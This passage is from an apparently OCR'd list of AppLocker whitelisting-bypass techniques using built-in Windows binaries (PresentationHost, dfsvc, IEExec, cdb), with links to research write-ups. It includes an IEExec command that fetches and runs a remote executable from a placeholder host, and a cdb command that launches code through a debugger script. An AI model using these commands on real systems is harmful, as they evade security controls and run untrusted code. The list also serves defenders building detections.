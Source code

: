 Notes:

* Links:
  * https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_3
  * https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/

--------------------------------------------------------------------------
 13. PresentationHost.exe


Missing Example


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes:

* Links:
  * https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  * https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/

--------------------------------------------------------------------------
 14. dfsvc.exe


Missing Example


* Requires admin: ?
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?


Notes:

* Links:
  * https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf

--------------------------------------------------------------------------
 15. IEExec.exe


ieexec.exe http://x.x.x.x:8080/bypass.exe


* Requires admin: ?
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes:

* Links:
  * https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/

--------------------------------------------------------------------------
 16. cdb.exe


cdb.exe -cf x64_calc.wds -o notepad.exe
